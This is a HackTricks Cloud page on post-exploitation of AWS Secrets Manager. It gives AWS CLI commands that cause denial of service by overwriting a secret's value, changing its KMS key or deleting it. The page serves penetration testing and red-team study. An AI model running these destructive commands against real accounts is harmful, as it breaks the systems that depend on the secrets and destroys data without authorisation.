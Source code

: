 # AWS - Secrets Manager Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Secrets Manager

For more information check:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

{% hint style="warning" %}
Note that previous values are also stored, so it's easy to just go back to the previous value.
{% endhint %}

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

